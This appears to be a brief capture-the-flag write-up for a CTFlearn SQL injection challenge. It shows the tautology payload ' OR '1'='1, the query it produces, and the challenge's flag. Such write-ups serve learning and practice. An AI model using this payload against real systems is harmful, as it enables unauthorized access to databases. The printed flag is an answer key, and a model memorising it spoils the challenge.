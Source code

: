 ```yaml
---
custom_edit_url: null
---
```


> See if you can leak the whole database using what you know about SQL Injections. [link](https://web.ctflearn.com/web4/)
> Don't know where to begin? Check out CTFlearn's [SQL Injection Lab](https://ctflearn.com/lab/sql-injection-part-1)

The website takes user input and puts it in an SQL query.

![1](https://github.com/Knign/Write-ups/assets/110326359/f98b874a-d191-472b-bc05-adbab942fe19)

We want our input to be such that the query's login is true.
```
' OR '1'='1
```
The input will cause the SQL query to look as follows:
```
SELECT * FROM webfour.webfour where name = '' OR '1'='1'
```
As the `name` field is blank and 1 is always equal to 1, the entire database is leaked.

![2](https://github.com/Knign/Write-ups/assets/110326359/a1325124-e3f5-4177-ac03-287a7aab2cec)

## Flag
```
CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
```
